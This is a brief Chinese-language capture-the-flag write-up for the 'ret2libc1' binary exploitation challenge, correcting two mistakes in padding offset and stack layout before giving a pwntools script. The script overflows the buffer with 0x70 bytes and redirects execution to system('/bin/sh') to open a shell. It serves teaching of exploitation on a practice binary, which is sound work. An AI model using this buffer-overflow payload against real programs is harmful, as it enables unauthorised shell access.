 第1点错误：输入字符串的位置看错了，导致填充'a'字符串的长度错了，应该是 `0xffffd0ac-0xffffd03c`，而不是 `0xffffd0ac-0xffffd020`  
第2点错误：栈的结构想错了，导致参数放在了低地址，实际应该在高地址，时刻记住，栈由高到低增长，想不通可以画示意图  

明白了上面的错误，看一下正确的脚本吧：  
```python
#coding :utf8

'''
main func return value addr:
0000| 0xffffd0ac --> 0xf7de9ee5 (<__libc_start_main+245>:	add    esp,0x10)
my input addr
0000| 0xffffd020 --> 0xffffd03c ("hello")
bin_sh_addr
.rodata:08048720 aBinSh          db '/bin/sh',0
call_system_addr
.text:08048611                 call    _system
'''

from pwn import *

exe = ELF("./ret2libc1")

context.binary = exe

bin_sh_addr = 0x08048720
call_system_addr = 0x08048611

def conn():
    if args.LOCAL:
        return process([exe.path])
    else:
        return remote("addr", 1337)


def main():
    r = conn()

    if args.G:
        gdb.attach(r)


    payload = flat(['a' * 0x70, call_system_addr, bin_sh_addr])
    r.recvuntil('RET2LIBC >_<')
    r.sendline(payload)

    r.interactive()


if __name__ == "__main__":
    main()
```
